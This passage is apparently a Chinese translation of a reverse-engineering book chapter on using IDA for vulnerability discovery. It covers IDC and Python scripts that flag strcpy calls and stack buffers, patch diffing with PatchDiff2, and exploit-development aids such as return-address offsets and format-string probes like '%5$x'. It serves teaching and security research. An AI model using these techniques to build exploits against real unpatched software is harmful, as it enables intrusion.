漏洞研究人员采取了许多不同的方法来发现软件中的新漏洞。当源代码可用时，可以利用越来越多的自动化源代码审计工具来突出显示程序中的潜在问题区域。在许多情况下，此类自动化工具只会指出低垂的果实，而发现更深层次的漏洞可能需要广泛的手动审计。

执行自动化二进制审计的工具提供了与自动化源代码审计工具相同的许多报告功能。自动化二进制分析的一个明显优势是不需要访问应用程序的源代码。因此，可以对仅提供二进制文件的封闭源代码程序进行自动化分析。Veracode^([188])是一家提供基于订阅服务的企业，用户可以向 Veracode 的专有二进制分析工具提交二进制文件进行分析。虽然不能保证此类工具可以在二进制中找到任何或所有漏洞，但这些技术使二进制分析对寻求对其使用的软件有一定信心的一般用户变得可行。

无论是在源代码级别还是二进制级别进行审计，基本的静态分析技术包括审计使用有问题的函数，如`strcpy`和`sprintf`，审计使用由动态内存分配例程（如`malloc`和`VirtualAlloc`）返回的缓冲区，以及审计通过函数（如`recv`、`read`、`fgets`等）接收到的用户输入的处理。在数据库中定位此类调用并不困难。例如，要追踪所有对`strcpy`的调用，我们可以执行以下步骤：

1.  找到`strcpy`函数。

1.  通过将光标置于`strcpy`标签上，然后选择**查看** ▸ **打开子视图** ▸ **交叉引用**来显示所有对`strcpy`函数的交叉引用。

1.  访问每个交叉引用，并分析提供给`strcpy`的参数，以确定是否可能发生缓冲区溢出。

第 3 步可能需要大量的代码和数据流分析来理解函数调用的所有潜在输入。希望这样的任务的复杂性是显而易见的。第 1 步，尽管看起来很简单，可能需要你付出一点努力。定位`strcpy`可能就像使用“跳转 ▸ 跳转到地址”命令（G）并输入要跳转到的地址`strcpy`一样简单。在 Windows PE 二进制文件或静态链接的 ELF 二进制文件中，这通常就足够了。然而，在其他二进制文件中，可能需要额外的步骤。在动态链接的 ELF 二进制文件中，使用跳转命令可能不会直接带你到所需函数。相反，它可能带你到`extern`部分的条目（这涉及到动态链接过程）。以下是 IDA 在`extern`部分中`strcpy`条目的表示：

```
 extern:804DECC          extrn strcpy:near     ; CODE XREF: _strcpy↑j
  extern:804DECC                                ; DATA XREF: .got:off_804D5E4↑o
```

为了混淆问题，这个位置看起来根本不叫`strcpy`（实际上它叫，但名字缩进），并且指向这个位置的唯一代码交叉引用是从一个看起来命名为`_strcpy`的函数跳转过来的，同时从`.got`部分也有数据交叉引用指向这个位置。引用函数实际上命名为`.strcpy`，但从显示中并不明显。在这种情况下，IDA 将点字符替换为下划线，因为 IDA 默认不认为点是有效的标识符字符。双击代码交叉引用会带我们到程序中`strcpy`的进程链接表（`.`plt`）条目，如下所示：

```
.plt:08049E90 _strcpy    proc near               ; CODE XREF: decode+5F↓p
.plt:08049E90                                    ; extract_int_argument+24↓p ...
.plt:08049E90            jmp     ds:off_804D5E4
.plt:08049E90 _strcpy    endp
```

如果我们追踪数据交叉引用，最终会到达这里显示的`strcpy`对应的`.got`条目：

```
.got:0804D5E4 off_804D5E4     dd offset strcpy        ; DATA XREF: _strcpy↑r
```

在`.got`条目中，我们遇到了另一个指向`.plt`部分`.strcpy`函数的数据交叉引用。在实践中，跟随数据交叉引用是从`extern`部分导航到`.plt`部分的最可靠方法。在动态链接的 ELF 二进制文件中，函数通过进程链接表间接调用。现在我们已经到达了`.`plt`，我们可以调出对`_strcpy`（实际上是`.strcpy`）的交叉引用，并开始审计每个调用（在这个例子中至少有两个）。

当我们有一系列常见的函数调用列表，希望定位和审计这些调用时，这个过程可能会变得繁琐。此时，开发一个能够自动定位并注释所有有趣函数调用的脚本可能是有用的。有了注释，我们可以执行简单的搜索，从一个审计位置移动到另一个位置。此类脚本的基础是一个能够可靠地定位另一个函数的函数，以便我们可以定位对该函数的所有交叉引用。在前面的讨论中，我们获得了对 ELF 二进制文件的理解，示例 22-1 中的 IDC 函数接受一个函数名作为输入参数，并返回一个适合交叉引用迭代的地址。

[示例 22-1. 查找函数的可调用地址]

```
static getFuncAddr(fname) {
   auto func = LocByName(fname);
   if (func != BADADDR) {
      auto seg = SegName(func);
      //what segment did we find it in?
      if (seg == "extern") { //Likely an ELF if we are in "extern"
         //First (and only) data xref should be from got
         func = DfirstB(func);
         if (func != BADADDR) {
            seg = SegName(func);
            if (seg != ".got") return BADADDR;
            //Now, first (and only) data xref should be from plt
            func = DfirstB(func);
            if (func != BADADDR) {
               seg = SegName(func);
               if (seg != ".plt") return BADADDR;
            }
         }
      }
      else if (seg != ".text") {
         //otherwise, if the name was not in the .text section, then we
         // don't have an algorithm for finding it automatically
         func = BADADDR;
      }
   }
   return func;
}
```

使用提供的返回地址，现在可以追踪到所有我们希望审计的函数的引用。示例 22-2 中的 IDC 函数利用前一个示例中的`getFuncAddr`函数来获取函数地址，并在所有调用该函数的位置添加注释。

[示例 22-2. 标记指定函数的调用]

```
static flagCalls(fname) {
     auto func, xref;
     //get the callable address of the named function
    func = getFuncAddr(fname);
     if (func != BADADDR) {
        //Iterate through calls to the named function, and add a comment
        //at each call
       for (xref
 = RfirstB(func); xref != BADADDR; xref = RnextB(func, xref)) {
           if (XrefType() == fl_CN || XrefType() == fl_CF) {
              MakeComm(xref, "*** AUDIT HERE ***");
           }
        }
        //Iterate through data references to the named function, and add a
        //comment at reference
       for
 (xref = DfirstB(func); xref != BADADDR; xref = DnextB(func, xref)) {
           if (XrefType() == dr_O) {
              MakeComm(xref, "*** AUDIT HERE ***");
           }
        }
     }
  }
```

一旦找到了所需函数的地址 ![http://atomoreilly.com/source/nostarch/images/854061.png]，就使用两个循环来迭代该函数的交叉引用。在第一个循环 ![http://atomoreilly.com/source/nostarch/images/854063.png]，在调用感兴趣函数的每个位置插入注释。在第二个循环 ![http://atomoreilly.com/source/nostarch/images/854093.png]，在获取函数地址的每个位置插入额外的注释（使用偏移交叉引用类型）。第二个循环是必要的，以便追踪以下风格的调用：

```
 .text:000194EA                 mov     esi, ds:strcpy
  .text:000194F0                 push    offset loc_40A006
  .text:000194F5                 add     edi, 160h
    .text:000194FB                 push    edi
 .text:000194FC call    esi
```

在这个例子中，编译器已将`strcpy`函数的地址缓存到 ESI 寄存器 ![http://atomoreilly.com/source/nostarch/images/854061.png]，以便在程序稍后使用更快的调用方式 ![http://atomoreilly.com/source/nostarch/images/854063.png]。这里显示的`call`指令执行速度更快，因为它既小（2 字节）且不需要额外的操作来解析调用目标，因为地址已经包含在 CPU 的 ESI 寄存器中。编译器可能会选择生成此类代码，当某个函数多次调用另一个函数时。

考虑到这个例子中调用的间接性，我们示例中的`flagCalls`函数可能只能看到对`strcpy`的数据交叉引用 ，而无法看到对`strcpy`的调用 ，因为`call`指令并没有直接引用`strcpy`。然而，在实践中，IDA 具有在这些情况下执行一些有限的数据流分析的能力，并可能生成以下所示的汇编代码：

```
.text:000194EA                 mov     esi, ds:strcpy
  .text:000194F0                 push    offset loc_40A006
  .text:000194F5                 add     edi, 160h
  .text:000194FB                 push    edi
 .text:000194FC                 call    esi ; strcpy
```

注意，`call`指令  已经被注释，表明 IDA 认为正在调用哪个函数。除了插入注释外，IDA 还从调用点添加了一个代码交叉引用到被调用的函数。这有利于`flagCalls`函数，因为在这种情况下，`call`指令将通过代码交叉引用被找到并注释。

为了完成我们的示例脚本，我们需要一个`main`函数，该函数调用我们感兴趣审计的所有函数的`flagCalls`。本节前面提到的某些函数的调用注释的简单示例如下：

```
static main() {
   flagCalls("strcpy");
   flagCalls("strcat");
   flagCalls("sprintf");
   flagCalls("gets");
}
```

运行此脚本后，我们可以通过搜索插入的注释文本`*** AUDIT ***`从一个有趣的调用跳转到下一个。当然，这仍然留下了很多分析方面的工作要做，因为仅仅因为程序调用了`strcpy`并不意味着该程序可利用。这正是数据流分析发挥作用的地方。为了了解对`strcpy`的特定调用是否可利用，您必须确定传递给`strcpy`的参数，并评估这些参数是否可以被操纵以获得您的优势。

数据流分析是一项比仅仅找到对问题函数的调用要复杂得多的任务。为了在静态分析环境中跟踪数据的流动，需要对所使用的指令集有一个彻底的了解。您的静态分析工具需要理解寄存器可能被赋予的值以及这些值如何可能改变并传播到其他寄存器。此外，您的工具需要一种确定程序中引用的源和目标缓冲区大小的手段，这反过来又需要理解堆栈帧和全局变量的布局，以及推断动态分配的内存块大小的能力。当然，所有这些都是在实际上不运行程序的情况下尝试的。

创意脚本所能完成的有趣示例之一是 Halvar Flake 创建的 BugScam^([189]) 脚本。BugScam 使用与前面示例类似的技术来定位对问题函数的调用，并在每个函数调用处执行基本的数据流分析。BugScam 分析的结果是一个二进制文件中潜在问题的 HTML 报告。以下是一个由 `sprintf` 分析生成的示例报告表：

| 地址 | 严重性 | 描述 |
| --- | --- | --- |
| 8048c03 | 5 | 数据的最大扩展似乎大于目标缓冲区；这可能是缓冲区溢出的原因！最大扩展：1053。目标大小：1036。 |

在这种情况下，BugScam 能够确定输入和输出缓冲区的大小，当与格式字符串中包含的格式说明符结合使用时，用于确定生成输出的最大大小。

开发此类脚本需要深入了解各种漏洞类别，以便开发一个可以通用地应用于大量二进制文件的算法。缺乏这种知识，我们仍然可以开发脚本（或插件），使我们能够比手动查找答案更快地回答简单问题。

作为最后的例子，考虑定位所有包含堆分配缓冲区的函数的任务，因为这些函数可能容易受到基于堆的缓冲区溢出攻击。而不是手动滚动数据库，我们可以开发一个脚本来分析每个函数的堆栈帧，寻找占用大量空间的变量。示例 22-3 中的 Python 函数遍历给定函数堆栈帧中定义的成员，寻找大小大于指定最小大小的变量。

示例 22-3. 扫描堆分配缓冲区

```
def findStackBuffers(func_addr, minsize):
     prev_idx = −1
     frame = GetFrame(func_addr)
     if frame == −1: return   #bad function
       idx = 0
     prev = None
     while idx < GetStrucSize(frame):
       member = GetMemberName(frame, idx)
        if member is not None:
           if prev_idx != −1:
              #compute distance from previous field to current field
             delta = idx - prev_idx
             if delta >= minsize:
                 Message("%s: possible buffer %s: %d bytes\n" %  \
                         (GetFunctionName(func_addr), prev, delta))
           prev_idx = idx
           prev = member
          idx = idx + GetMemberSize(frame, idx)
        else:
          idx = idx + 1
```

此函数通过重复调用 `GetMemberName`  来定位堆栈帧中的所有变量，对于堆栈帧中所有有效的偏移量。变量的大小是通过计算两个连续变量的起始偏移量之间的差值来计算的 。如果大小超过阈值大小 (`minsize`) ，则该变量被报告为可能的堆栈缓冲区。结构体中的索引通过以下方式移动：当当前偏移量没有定义成员时，通过 1 字节  移动；当当前偏移量找到任何成员时，通过该成员的大小  移动。`GetMemberSize` 函数可能看起来更适合计算每个堆栈变量的大小；然而，这只有在变量已被 IDA 或用户正确设置大小的情况下才成立。考虑以下堆栈帧：

```
.text:08048B38 sub_8048B38     proc near
.text:08048B38
.text:08048B38 var_818         = byte ptr −818h
.text:08048B38 var_418         = byte ptr −418h
.text:08048B38 var_C           = dword ptr −0Ch
.text:08048B38 arg_0           = dword ptr  8
```

使用显示的字节偏移量，我们可以计算出从 `var_818` 的开始到 `var_418` 的开始有 1,024 字节（`818h - 418h = 400h`），从 `var_418` 的开始到 `var_C` 的开始有 1,036 字节（`418h - 0Ch`）。然而，堆栈帧可能扩展以显示以下布局：

```
-00000818 var_818         db ?
−00000817                 db ? ; undefined
−00000816                 db ? ; undefined
...
−0000041A                 db ? ; undefined
−00000419                 db ? ; undefined
−00000418 var_418         db 1036 dup(?)
−0000000C var_C           dd ?
```

在这里，`var_418` 已被合并为一个数组，而 `var_818` 看起来只是一个单字节（1,023 个未定义字节填充了 `var_818` 和 `var_418` 之间的空间）。对于这种堆布局，`GetMemberSize` 将报告 `var_818` 为 1 字节，`var_418` 为 1,036 字节，这是一个不理想的结果。调用 `findStackBuffers(0x08048B38, 16)` 的输出如下，无论 `var_818` 被定义为单字节还是 1,024 字节的数组：

```
sub_8048B38: possible buffer var_818: 1024 bytes
sub_8048B38: possible buffer var_418: 1036 bytes
```

创建一个 `main` 函数，该函数遍历数据库中的所有函数（见第十五章 [IDA Scripting]），并对每个函数调用 `findStackBuffers`，这将生成一个快速指出程序中堆栈缓冲区使用的脚本。当然，确定这些缓冲区中的任何一个是否可以被溢出需要额外的（通常是手动）对每个函数的研究。静态分析的繁琐性质正是模糊测试如此受欢迎的原因。

* * *

^([186]) 通常，通过模糊测试发现的安全漏洞比通过静态分析发现的要多得多。

^([187]) 例如，参见 Jon Erickson 的 *Hacking: The Art of Exploitation, 2nd Edition* ([`nostarch.com/hacking2.htm`](http://nostarch.com/hacking2.htm)).

^([188]) 请参阅 [`www.veracode.com/`](http://www.veracode.com/).

^([189]) 请参阅 [`www.sourceforge.net/projects/bugscam/`](http://www.sourceforge.net/projects/bugscam/).

# 使用 IDA 进行事后的漏洞发现

关于软件漏洞应该如何披露的精确过程一直存在永无休止的争论。对于任何软件中发现的漏洞，我们可以分配发现者（漏洞的发现者）和维护者（软件的维护者）的角色。此外，我们可以指定一些可能发生也可能不发生的事件，这些事件围绕任何漏洞的发现。其中一些事件在此简要描述。请记住，整个漏洞披露过程是一个激烈争论的话题，以下术语绝对没有标准化，甚至没有被广泛接受。

**发现**

漏洞最初被发现的时间。在我们的目的中，我们也将这个时间视为针对该漏洞的利用程序最初开发的时间。

**通知**

软件维护者最初意识到其产品中存在漏洞的时间。这可能与管理员自己发现漏洞时的情况一致。

**披露**

漏洞对公众公开的时间。这一事件可能会因为关于漏洞的详细程度而变得复杂。披露可能伴随着或没有工作利用程序的发布或识别。在某些情况下，披露也作为对供应商的通知。

**缓解**

发布步骤的时间，如果遵循这些步骤，可以防止用户成为现有利用程序的受害者。缓解步骤是用户等待补丁发布时的临时解决方案。

**补丁可用性**

维护者（或第三方）提供修正版漏洞软件的时间。

**补丁应用**

用户实际安装更新、修正软件的时间，使他们（希望）对所有已知依赖该漏洞存在的攻击免疫。

许多论文都乐于告诉你关于漏洞窗口、发现者和维护者的义务，以及应该披露多少信息以及何时进行披露。直截了当地说，披露通常与补丁的可用性同时发生。

在大多数情况下，漏洞警告信息与补丁一起发布。漏洞警告信息提供了一定程度的技术细节，描述了已修补问题的性质和严重性，但通常这种细节水平不足以用于开发针对该问题的有效利用。为什么有人想要开发有效利用又是一个问题。显然，有些人对利用未修补的计算机感兴趣，并且利用工具开发得越快，他们利用更多计算机的机会就越大。在其他情况下，供应商可能对开发扫描网络或实时检测利用尝试的技术感兴趣。在大多数情况下，开发此类工具需要详细了解新修补漏洞的确切性质。

警告信息可能缺少一些关键信息，例如包含漏洞的确切文件或文件名、任何易受攻击函数的名称或位置，以及这些函数内部具体发生了什么变化。然而，修补后的文件本身却包含了漏洞开发者为了开发针对新修补漏洞的有效利用所需的全部信息。这些信息并不立即明显，也不是明确为漏洞开发者准备的。相反，这些信息以消除潜在漏洞所进行的更改的形式存在。突出这些更改的最简单方法是将修补后的二进制文件与其未修补的对应版本进行比较。如果我们有幸能够查找修补源文件中的差异，那么标准基于文本的比较工具，如`diff`，可以轻松地定位更改。不幸的是，追踪二进制文件两个版本之间的行为变化比简单的文本文件比较要复杂得多。

使用差异计算来隔离两个二进制文件中的更改的困难在于，二进制文件可能由于多种原因而发生变化。更改可能是由编译器优化、编译器本身的更改、源代码的重组、添加与漏洞无关的代码，以及当然，修补漏洞本身的代码触发的。挑战在于将行为变化（例如，修复漏洞所需的变化）从外观变化（例如，使用不同的寄存器来完成相同任务）中分离出来。

有许多专门为二进制差异比较设计的工具可用，包括来自 Zynamics 的商业 BinDiff；^([190]) 来自 eEye Digital Security 的免费 Binary Diffing Suite (BDS)；^([191]) Turbodiff，^([192)) 同样免费，由 Core Labs 提供（Core Security 的组成部分，也是 Core Impact 的制造商^([193])); 以及 Nicolas Pouvesle 的 PatchDiff2^([194]))。这些工具中的每一个都以某种方式依赖于提供的 IDA。BinDiff 和 BDS 使用 IDA 脚本和插件来对被分析的补丁版本和未补丁版本的二进制文件执行初始分析任务。插件提取的信息存储在后端数据库中，每个工具都提供基于图形的显示，并可以在分析阶段检测到的差异中进行导航。Turbodiff 和 PatchDiff2 作为 IDA 插件实现，并在 IDA 本身中显示其结果。这些工具的最终目标是快速突出显示修补漏洞所做的更改，以便理解代码最初为何会存在漏洞。有关每个工具的更多信息可在其各自的网站上找到。

PatchDiff2 是免费差异比较工具的代表，是一个开源项目，提供编译后的插件，包括 32 位和 64 位 Windows 版本，以及插件源代码的子版本访问。安装插件涉及将插件二进制文件复制到 *<IDADIR>/plugins*。

使用 PatchDiff2 的第一步是为要比较的两个二进制文件创建两个单独的 IDA 数据库，每个数据库对应一个二进制文件。通常，其中一个数据库会为二进制文件的原版创建，而另一个数据库则会为二进制文件的修补版创建。

| **名称** | PatchDiff2 |
| --- | --- |
| **作者** | Nicolas Pouvesle |
| **分发** | IDA 5.7 的源代码和二进制文件 |
| **价格** | 免费 |
| **描述** | 二进制差异生成和显示 |
| **信息** | [`code.google.com/p/patchdiff2/`](http://code.google.com/p/patchdiff2/) |

启用插件通常涉及打开原始二进制文件的数据库，然后通过 Edit ▸ Plugins 菜单或其关联的热键（默认为 ctrl-8）激活 PatchDiff2。PatchDiff2 将你调用插件的数据库称为 *IDB1*，或“第一个 idb”。激活后，PatchDiff2 将要求打开第二个数据库，该数据库将与当前打开的数据库进行比较；这个数据库被称为 *IDB2*，或“第二个 idb”。一旦选择了第二个数据库，PatchDiff2 将为每个数据库中的每个函数计算一系列识别特征，包括各种类型的签名、哈希值和 CRC 值。利用这些特征，PatchDiff2 创建了三个函数列表，分别称为 *Identical Functions*、*Unmatched Functions* 和 *Matched Functions*。PatchDiff2 在每个新标签页窗口中显示这些列表。

Identical Functions 列表包含 PatchDiff2 认为在两个数据库中都相同的函数列表。从分析的角度来看，这些函数可能不太有趣，因为它们对生成修补版二进制文件的变化没有贡献。

Unmatched Functions 列表显示了两个数据库中看起来彼此不相似的功能，根据 PatchDiff2 应用的度量标准。在实践中，这些函数可能已被添加到修补版本中，从未修补版本中删除，或者与同一二进制文件中的其他功能太相似，以至于无法将它们与第二个二进制文件中的对应功能区分开来。通过仔细的手动分析，通常可以在 Unmatched Functions 列表中匹配函数对。作为一个一般规则，手动比较具有相似签名数量的函数结构是一个好主意。为了便于这样做，最好根据 *sig* 列对列表进行排序，以便具有相似签名数量的函数列在一起。这里显示了按 *sig* 排序的未匹配函数列表的前几行。

```
File Function name Function address Sig      Hash     CRC
---- ------------- ---------------- ---      ----     ---
1    sub_7CB25FE9  7CB25FE9         000000F0 F4E7267B 411C3DCC
1    sub_7CB6814C  7CB6814C         000000F0 F4E7267B 411C3DCC
2    sub_7CB6819A  7CB6819A         000000F0 F4E7267B 411C3DCC
2    sub_7CB2706A  7CB2706A         000000F0 F4E7267B 411C3DCC
```

很明显，来自第一个文件的两个函数与来自第二个文件的两个函数是相关的；然而，PatchDiff2 无法确定如何将它们配对。在二进制文件中，使用 C++ *标准模板库 (STL)* 的程序中看到具有相同结构的多个函数并不罕见。如果你能够手动将一个文件中的一个函数与其在另一个文件中的对应函数匹配，你可以使用 PatchDiff2 的 *Set Match* 功能（可在上下文相关菜单中找到）来选择列表中的一个函数并将其匹配到列表中的第二个函数。图 22-1 显示了 Set Match 对话框。



图 22-1. 使用 PatchDiff2 手动匹配函数

手动匹配开始于您使用“设置匹配”菜单选项选择一个函数。在随后出现的对话框中，您必须在您未查看的文件中输入匹配函数的地址。传播选项要求 PatchDiff2 匹配尽可能多的其他函数，前提是您已告知它一个新的匹配。

匹配函数列表包含 PatchDiff2 根据匹配过程中应用的度量标准认为足够相似但又不完全相同的函数列表。在列表中的任何条目上右键单击并选择显示图形，将导致 PatchDiff2 显示两个匹配函数的流程图。图 22-2 中显示了一对这样的图形。PatchDiff2 使用颜色编码来突出显示已添加到二进制补丁版本中的块，这使得关注代码的更改部分变得容易。



图 22-2. PatchDiff2 图形函数比较

在这些图形中，块  到  在两个函数中都存在，而块  已添加到函数的补丁版本中。在差异分析期间，匹配函数最初可能最具兴趣，因为它们很可能包含已合并到补丁二进制文件中的更改，这些更改解决了原始二进制文件中发现的漏洞。仔细研究这些更改可能会揭示为解决错误行为或可利用条件而进行的修正或安全检查。如果我们未能找到在匹配函数列表中突出显示的任何有趣更改，那么未匹配函数列表是我们尝试定位补丁代码的唯一其他选项。

* * *

^([190]) 请参阅 [`www.zynamics.com/bindiff.html`](http://www.zynamics.com/bindiff.html)。请注意，2011 年 3 月，Zynamics 被谷歌收购。

^([191]) 请参阅 [`research.eeye.com/html/tools/RT20060801-1.html`](http://research.eeye.com/html/tools/RT20060801-1.html)。

^([192]) 请参阅 [`corelabs.coresecurity.com/index.php?module=Wiki&action=view&type=tool&name=turbodiff`](http://corelabs.coresecurity.com/index.php?module=Wiki&action=view&type=tool&name=turbodiff)。

^([193]) 请参阅 [`www.coresecurity.com/content/core-impact-overview/`](http://www.coresecurity.com/content/core-impact-overview/)。

^([194]) 请参阅 [`code.google.com/p/patchdiff2`](http://code.google.com/p/patchdiff2)。注意，亚历山大·皮克（Alexander Pick）已将 PatchDiff2 移植到适用于 OS X 的 IDA 6.0。更多信息请参阅 [`github.com/alexander-pick/patchdiff2_ida6`](https://github.com/alexander-pick/patchdiff2_ida6)。

# IDA 和漏洞利用开发过程

假设您设法找到了一个可能可利用的漏洞，IDA 如何帮助漏洞利用开发过程？要回答这个问题，您需要了解您需要什么类型的帮助，以便您能够利用 IDA 的适当功能。

IDA 在几个方面非常出色，这些方面可以在开发漏洞利用时节省您大量的试错时间：

+   IDA 图可以用来确定控制流路径，从而理解一个易受攻击的函数是如何被到达的。在大型的二进制文件中，可能需要仔细选择图生成参数，以最小化生成的图的复杂性。有关 IDA 图的更多信息，请参阅 第九章。

+   IDA 将堆栈帧分解到非常详细的程度。如果您正在覆盖堆栈中的信息，IDA 将帮助您了解哪些缓冲区部分覆盖了哪些信息。IDA 堆栈显示在确定格式化字符串缓冲区的内存布局方面也非常宝贵。

+   IDA 具有出色的搜索功能。如果您需要在二进制中搜索特定的指令（如 `jmp esp`）或指令序列（如 `pop/pop/ret`），IDA 可以快速告诉您指令（们）是否存在于二进制中，如果是的话，指令（们）的确切虚拟地址。

+   由于 IDA 将二进制映射为在内存中加载的样子，这使得您更容易找到您可能需要的虚拟地址，以便实施您的漏洞利用。IDA 的反汇编列表使得确定任何全局分配的缓冲区的虚拟地址以及有用的地址（例如 `GOT` 条目）变得简单，当您具有写 4^([195]) 能力时。

我们将在以下几节中讨论这些功能以及如何利用它们。

## 栈帧分解

虽然堆栈保护机制正在迅速成为现代操作系统的标准功能，但许多计算机仍在运行允许代码在堆栈中执行的操作系统，就像在普通的基于堆栈的缓冲区溢出攻击中所做的那样。即使堆栈保护措施已经到位，溢出也可能被用来破坏基于堆栈的指针变量，这可以进一步被利用来完成攻击。

无论您在发现基于堆栈的缓冲区溢出时打算做什么，了解当您的数据溢出到易受攻击的堆栈缓冲区时，确切地哪些堆栈内容将被覆盖，这一点至关重要。您可能还想知道确切需要写入多少字节到缓冲区，才能控制函数堆栈帧内的各种变量，包括函数的保存返回地址。如果您愿意做一点数学计算，IDA 的默认堆栈帧显示可以回答所有这些问题。堆栈中任意两个变量之间的距离可以通过减去这两个变量的堆栈偏移量来计算。以下堆栈帧包括一个当输入到相应函数时可以仔细控制的缓冲区可以被溢出：

```
−0000009C result          dd ?
−00000098 buffer_132      db 132 dup(?)           ; this can be overflowed
−00000014 p_buf           dd ?                    ; pointer into buffer_132
−00000010 num_bytes       dd ?                    ; bytes read per loop
−0000000C total_read      dd ?                    ; total bytes read
−00000008                 db ? ; undefined
−00000007                 db ? ; undefined
−00000006                 db ? ; undefined
−00000005                 db ? ; undefined
−00000004                 db ? ; undefined
−00000003                 db ? ; undefined
−00000002                 db ? ; undefined
−00000001                 db ? ; undefined
+00000000  s              db 4 dup(?)
+00000004  r              db 4 dup(?)             ; save return address
+00000008 filedes         dd ?                    ; socket descriptor
```

从易受攻击的缓冲区（`buffer_132`）的起始位置到保存的返回地址的距离是 156 字节（`4 - −98h`，或者`4 - −152`）。您还可以看到，在 132 字节（`−14h - −98h`）之后，`p_buf`的内容将开始被覆盖，这可能会也可能不会引起问题。为了防止在触发漏洞之前目标应用程序崩溃，您必须清楚地理解覆盖缓冲区末尾之外变量的影响。在这个例子中，`filedes`（一个套接字描述符）可能是一个另一个有问题的变量。如果易受攻击的函数在您完成缓冲区溢出之后期望使用套接字描述符，那么您需要确保任何对`filedes`的覆盖都不会导致函数意外出错。处理将要被覆盖的变量的一个策略是将对程序有意义的值写入这些变量，以便程序在您的漏洞触发之前继续正常工作。

为了使堆栈帧的分解更易于阅读，我们可以修改来自示例 22-3 的堆栈缓冲区扫描代码，以枚举堆栈帧的所有成员，计算它们的明显大小，并显示每个成员到保存返回地址的距离。示例 22-4 显示了生成的脚本。

示例 22-4. 使用 Python 枚举单个堆栈帧

```
func = ScreenEA()  #process function at cursor location
  frame = GetFrame(func)
  if frame != −1:
     Message("Enumerating stack for %s\n" % GetFunctionName(func))
    eip_loc = GetFrameLvarSize(func) + GetFrameRegsSize(func)
       prev_idx = −1
     idx = 0
     while idx < GetStrucSize(frame):
        member = GetMemberName(frame, idx)
        if member is not None:
           if prev_idx != −1:
              #compute distance from previous field to current field
              delta = idx - prev_idx
              Message("%15s: %4d bytes (%4d bytes to eip)\n" % \
                      (prev, delta, eip_loc - prev_idx))
           prev_idx = idx
           prev = member
           idx = idx + GetMemberSize(frame, idx)
        else:
           idx = idx + 1
     if prev_idx != −1:
        #make sure we print the last field in the frame
        delta = GetStrucSize(frame) - prev_idx
        Message("%15s: %4d bytes (%4d bytes to eip)\n" % \
                (prev, delta, eip_loc - prev_idx))
```

此脚本介绍了`GetFrameLvarSize`和`GetFrameRegsSize`函数（也可在 IDC 中找到）。这些函数分别用于检索堆栈帧局部变量和保存寄存器区域的大小。保存的返回地址直接位于这两个区域下方，保存返回地址的偏移量是通过这两个值的总和计算得出的 。当针对我们的示例函数执行脚本时，它会产生以下输出：

```
Enumerating stack for handleSocket
         result:    4 bytes ( 160 bytes to eip)
     buffer_132:  132 bytes ( 156 bytes to eip)
          p_buf:    4 bytes (  24 bytes to eip)
      num_bytes:    4 bytes (  20 bytes to eip)
     total_read:   12 bytes (  16 bytes to eip)
              s:    4 bytes (   4 bytes to eip)
              r:    4 bytes (   0 bytes to eip)
         fildes:    4 bytes (  −4 bytes to eip)
```

这些结果提供了一个关于函数堆栈帧的简洁总结，并附有对漏洞开发者可能有用的附加信息。

IDA 的堆栈帧显示在开发针对格式字符串漏洞的漏洞利用时也非常有用。例如，考虑以下简短的代码片段，其中调用了 `fprintf` 函数，并使用用户提供的缓冲区作为格式字符串。

```
.text:080488CA        lea     eax, [ebp+format]
  .text:080488D0        mov     [esp+4], eax    ; format
   .text:080488D4        mov     eax, [ebp+stream]
  .text:080488DA        mov     [esp], eax      ; stream
   .text:080488DD        call    _fprintf
```

在这个例子中，只向 `fprintf` 传递了两个参数，一个文件指针 ![http://atomoreilly.com/source/no_starch_images/854061.png] 和用户缓冲区的地址作为格式字符串 ![http://atomoreilly.com/source/no_starch_images/854063.png]。这些参数占据了堆栈上的前两个位置，这是调用函数作为函数序言的一部分已经分配的内存。漏洞函数的堆栈帧显示在 示例 22-5 中。

示例 22-5. 格式字符串示例的堆栈帧

```
  −00000128                 db ? ; undefined
   −00000127                 db ? ; undefined
   −00000126                 db ? ; undefined
   −00000125                 db ? ; undefined
  −00000124                 db ? ; undefined
   −00000123                 db ? ; undefined
   −00000122                 db ? ; undefined
   −00000121                 db ? ; undefined
   −00000120                 db ? ; undefined
   −0000011F                 db ? ; undefined
   −0000011E                 db ? ; undefined
   −0000011D                 db ? ; undefined
   −0000011C                 db ? ; undefined
   −0000011B                 db ? ; undefined
   −0000011A                 db ? ; undefined
   −00000119                 db ? ; undefined
   −00000118 s1              dd ?                    ; offset
   −00000114 stream          dd ?                    ; offset
   −00000110 format          db 264 dup(?)
```

从帧偏移 `128h` 到 `119h` 的 16 个未定义字节代表了编译器（在本例中为 gcc）为传递给将被漏洞函数调用的函数的参数预分配的内存块。`stream` 参数将放置在堆栈的顶部 ![http://atomoreilly.com/source/no_starch_images/854061.png]，而格式字符串指针将放置在 `stream` 参数的下方 ![http://atomoreilly.com/source/no_starch_images/854063.png]。

在格式字符串漏洞利用中，攻击者通常对格式字符串指针到包含攻击者输入的缓冲区开始的距离感兴趣。在前面的堆栈帧中，16 个字节将格式字符串参数与实际的格式字符串缓冲区分隔开来。为了进一步讨论，我们将假设攻击者输入了以下格式字符串。

```
"%x %x %x %x %x"
```

在这里，`fprintf` 函数期望在格式字符串参数之后立即有五个参数。这四个参数将占据格式字符串参数和格式字符串缓冲区之间的空间。最后一个，也是第五个参数将覆盖格式字符串缓冲区的第一个四个字节。熟悉格式字符串漏洞的读者会知道，格式字符串内的参数可以通过索引号明确命名。以下格式字符串示例展示了如何访问格式字符串之后的第五个参数，以便将其格式化为十六进制值。

```
"%5$x"
```

继续上一个示例，这个格式字符串将读取格式字符串缓冲区的第一个 4 个字节作为整数（我们之前提到，如果需要，它将占据格式字符串第五个参数的空间），然后将该整数格式化为十六进制值，并将结果输出到指定的文件流。格式字符串的附加参数（第六个、第七个等）将重叠格式字符串缓冲区内的连续 4 字节块。

构造一个能够正确利用易受攻击的二进制文件的格式字符串可能很棘手，通常依赖于对格式字符串中参数的精确指定。前面的讨论表明，在许多情况下，IDA 可以快速准确地计算格式字符串缓冲区中所需的偏移量。通过结合 IDA 在反汇编各种程序部分时提供的信息，例如全局偏移表 (*.got*) 或析构函数表 (*.dtor*)，可以准确地推导出正确的格式字符串，而无需像仅使用调试器开发漏洞利用时那样进行试错。

## 定位指令序列

